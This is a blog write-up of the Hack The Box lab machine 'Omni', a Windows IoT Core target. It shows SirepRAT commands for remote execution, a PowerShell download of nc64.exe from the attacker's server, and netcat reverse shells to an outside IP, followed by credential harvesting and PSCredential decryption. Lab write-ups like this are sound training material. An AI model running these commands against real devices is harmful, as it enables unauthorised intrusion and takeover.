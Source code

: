 ```yaml
---
layout: post
title: Hackthebox - Omni
date: 2021-01-08 19:00:00 +0000
category: [Hackthebox, Other]
tags: [htb,other,easy,powershell]
---
```


---
Omni is a easy level Windows box in Hackthebox. The reason the OS in this machine is categorized into ```other``` is due the integration of an IOT device. Actually, I had to do some homework in powershell, so it took me some time to get a foothold in this box. And everytime I thought I got the flag it was encrypted with ```PSCredentials```. After a lot of trial and error I decrypted the flags. This is the first box that I've done which integrated IOT device so, I learnt a lot while doing this box. This post will explain how I cleared the ```Omni``` box in Hackthebox. I hope you'll find this useful.
<br>
![cover_image](/assets/img/hackthebox/omni/1.png)

**Author** | egre55  
**Operating System** | Other
**Difficulty** | Easy


Connect to ```Hackthebox``` and let's go.

## <ins>Enumeration</ins>
---
I started enumerating using ```nmap```.
<br>
![nmap_scan](/assets/img/hackthebox/omni/nmap_scan.png)
<br>
The ports ```8080/http``` ```135/smb``` and some other non-standard ports are open.

Visiting the ```http service``` it prompts for credentials. I tried some common credentials but had no luck with it. Then, I searched for ```windows device portal vulnerabilities``` and **hit a jackpot!!**. The first link from the search results clearly explained about the vulnerability and the second link gave away the tool to exploit. Here is the [blog which explains the vulnerability](https://www.zdnet.com/article/new-exploit-lets-attackers-take-control-of-windows-iot-core-devices/).

This vulnerability impacts the Sirep/WPCon communications protocol included with Windows IoT operating system.
<br>
![vuln_expl](/assets/img/hackthebox/omni/3.png)
<br>
I also checked the tool called ```SirepRAT``` which was made by the author.  Here is the [link to tool](https://github.com/SafeBreach-Labs/SirepRAT)

Clone the repository into your local machine.

I tried running the python script and successfully managed to get the ```System Information```.
<br>
<pre>python SirepRAT.py 10.10.10.204 GetSystemInformationFromDevice</pre>
<br>
![system_information](/assets/img/hackthebox/omni/4.png)
<br>
The ```Netcat``` utility is not pre-installed in ```Windows```. So, I downloaded the netcat-64 utility for windows and transferred it to the remote machine.

Here's how you can do it.

**1)** First download the netcat 64 utility from [github page](https://github.com/int0x33/nc.exe/blob/master/nc64.exe?source=post_page-----a2ddc3557403----------------------)

**2)** Open a ```python http server``` from the directory where netcat is.

**3)** Then run this.
<br>
<pre>python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c powershell Invoke-Webrequest -Outfile C:\\Windows\\System32\\nc64.exe -Uri http://your-vpn-ip:8080/nc64.exe"</pre>
<br>
At first, I tried using ```cURL``` but I didn't get any response. So, I used the ```Invoke-Webrequest cmdlet``` to the download the netcat file.
<br>
![nc_download](/assets/img/hackthebox/omni/5.png)
<br>

## <ins>Reverse shell</ins>
---
I confirmed that the file has been downloaded from the GET request from my python server. Note that the double backslash is used for escaping.

Now, execute the netcat utility with the ```-e powershell.exe``` argument to get the reverse shell. Remember to open a netcat listener in your local machine.
<br>
<pre>python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args " /c C:\\Windows\\System32\\nc64.exe 10.10.14.246 4445 -e powershell.exe"</pre>
<br>
![reverse_shell](/assets/img/hackthebox/omni/6.png)
<br>
Bingo!! We got the reverse shell
<br>
![omni_shell](/assets/img/hackthebox/omni/7.png)
<br>

## <ins>Getting the user</ins>
---
After some enumeration I found this interesting file in the ```c:\Program Files\WindowsPowershell\Modules\PackageManagement``` folder. The file is hidden. You can see hidden files using this command...
<br>
<pre>ls -force</pre>
<br>
![bat_file](/assets/img/hackthebox/omni/8.png)
<br>
You can view the contents of the file using this command...
<br>
<pre>type file-name</pre>
<br>
![contents_bat](/assets/img/hackthebox/omni/9.png)
<br>
We got the credentials for both the users ```app``` and ```administrator```. Login to the webpage using the credentials. 

After looking around, I found a way to get a reverse shell. In the dashboard under the ```Processess``` tab, click on the ```Run command```.
<br>
![run_command](/assets/img/hackthebox/omni/10.png)
<br>
We can run the command and get the flag in this page but it was a little uncomfortable for me so I tried running powershell payload but the command didn't get executed.  So, I used the netcat that I uploaded in the remote machine. Remember to open a netcat listener in your local machine.
<br>
<pre>C:\\Windows\\System32\\nc64.exe your-vpn-ip-addr 4446 -e powershell.exe</pre>
<br>
![reverse_shell](/assets/img/hackthebox/omni/11.png)
<br>

## <ins>User flag</ins>
---
I tried running winpeas but most commands didn't get executed and throwed a lot of errors. After looking around for a while, I checked if there were any other ```Volumes``` in the disk. I tried using ```Get-Volume``` but it showed that the ```cmdlet``` didn't exist. So, I used ```gdr``` in short for ```Get-PSDrive``` which I got from ```stackoverflow```.
<br>
<pre>gdr -PSProvider 'FileSystem'</pre>
<br>
![get_volume](/assets/img/hackthebox/omni/12.png)
<br>
There is another volume in the disk named ```U:\```.

I checked the ```U:\Users\app\``` and found the file named ```user.txt```.
<br>
![home_folder](/assets/img/hackthebox/omni/13.png)
<br>
I used ```type``` to get the contents of the file and found that it was encrypted with ```PSCredential```. 
<br>
![PS_creds](/assets/img/hackthebox/omni/14.png)
<br>
Arghh...I almost thought I got the user flag. I searched on how to decrypt the file and finally ended up with ```stackoverflow```.
<br>
<pre>
$credential = Import-CliXml -Path ./user.txt
$credential.GetNetworkCredential().Password
</pre>
<br>
![user_flag](/assets/img/hackthebox/omni/15.png)
<br>

Source:

https://stackoverflow.com/questions/63639876/powershell-password-decrypt

https://techramblers.blog/2020/04/08/decrypt-pscredential-object-password-and-its-applications/


## <ins>Root flag</ins>
---
For the root flag, login to the windows device portal page with the admin credentials. Note that you need to open a incognito tab to login to the page. Use the netcat file from the remote machine to get the reverse shell. Remember to open a netcat listener in your local machine. 

Alternatively, you can also use ```evil-winrm``` to get the flag. I went with the flow and used the same methodology to get the root flag.
<br>
![root_shell](/assets/img/hackthebox/omni/16.png)
<br>
The root flag is in the folder ```U:\Users\Administrator\```.
<br>
![root_folder](/assets/img/hackthebox/omni/17.png)
To get the root flag use this command to decrypt.
<br>
<pre>
$credential = Import-CliXml -Path ./root.txt
$credential.GetNetworkCredential().Password
</pre>
<br>
![root_flag](/assets/img/hackthebox/omni/18.png)


Box rooted!! Until next time...

That's it folks. Happy hacking!!!
